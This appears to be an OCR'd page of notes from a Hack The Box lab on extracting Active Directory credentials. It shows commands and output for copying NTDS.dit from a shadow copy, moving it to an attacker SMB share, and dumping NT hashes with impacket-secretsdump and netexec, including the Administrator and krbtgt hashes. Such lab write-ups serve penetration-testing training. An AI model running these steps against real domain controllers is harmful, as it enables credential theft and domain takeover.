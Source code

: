 ```bash
*Evil-WinRM* PS C:\\NTDS> cmd.exe /c copy \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\Windows\\NTDS\\NTDS.dit c:\\NTDS\\NTDS.dit

        1 file(s) copied.
```

**Transferring NTDS.dit to attack host:**

- We can setup an SMB Server on the attack host to catch our NTDS.dit file from the target host.

```bash
*Evil-WinRM* PS C:\\NTDS> cmd.exe /c move C:\\NTDS\\NTDS.dit \\\\10.10.15.30\\CompData

        1 file(s) moved.
```

**Extracting hashes from NTDS.dit:**

- Now that we have the NTDS.dit copied on to our attack host, let’s dump the hashes and see what we can find:

```bash
realCustampin@htb[/htb]$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCALImpacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK# 0 found and decrypted: 086ab260718494c3a503c47d430a92a4[*] Reading and decrypting hashes from NTDS.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
<SNIP>
```

## Faster Method: Using NetExec to Capture NTDS.dit:

- Using the credentials, we can also use NetExec to capture the entirety of the NTDS.dit file with all hashes.

```bash
realCustampin@htb[/htb]$ netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutilSMB         10.129.201.57   445     DC01         [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57   445     DC01         [+] inlanefrieght.local\\bwilliamson:P@55w0rd! (Pwn3d!)
NTDSUTIL    10.129.201.57   445     DC01         [*] Dumping ntds with ntdsutil.exe to C:\\Windows\\Temp\\174556000
NTDSUTIL    10.129.201.57   445     DC01         Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         [+] NTDS.dit dumped to C:\\Windows\\Temp\\174556000
NTDSUTIL    10.129.201.57   445     DC01         [*] Copying NTDS dump to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [*] NTDS dump copied to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [+] Deleted C:\\Windows\\Temp\\174556000 remote dump directory
NTDSUTIL    10.129.201.57   445     DC01         [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
NTDSUTIL    10.129.201.57   445     DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.129.201.57   445     DC01         DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::NTDSUTIL    10.129.201.57   445     DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
```